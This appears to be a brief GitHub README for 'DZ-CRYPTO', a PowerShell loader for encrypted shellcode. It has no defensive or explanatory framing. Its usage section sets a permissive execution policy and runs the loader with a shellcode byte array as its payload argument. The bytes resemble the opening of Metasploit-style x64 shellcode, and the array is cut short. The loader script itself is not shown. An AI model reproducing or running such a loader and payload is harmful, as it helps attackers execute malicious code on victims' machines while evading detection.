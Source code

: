 # DZ-CRYPTO
DZ-CRYPTO SHELL CODE LOADER ENCRYPTED SHELL CODE 


# USAGE

```powershell

Set-ExecutionPolicy -Scope Process -ExecutionPolicy RemoteSigned

powershell -File .\DZ-CRYPTO.ps1 -payload 0xfc,0x48,0x83,0xe4,0xf0,0xe8,0xcc,0x0,0x0,0x0,0x41,0x51,0x41,0x50,0x52,0x48,0x31,0xd2,0x51,0x65,0x48,0x8b,0x52,0x60,0x48,0x8b,0x52,0x18,0x48,0x8b,0x52,0x20,0x56,0x48,0x8b,0x72,0x50

```

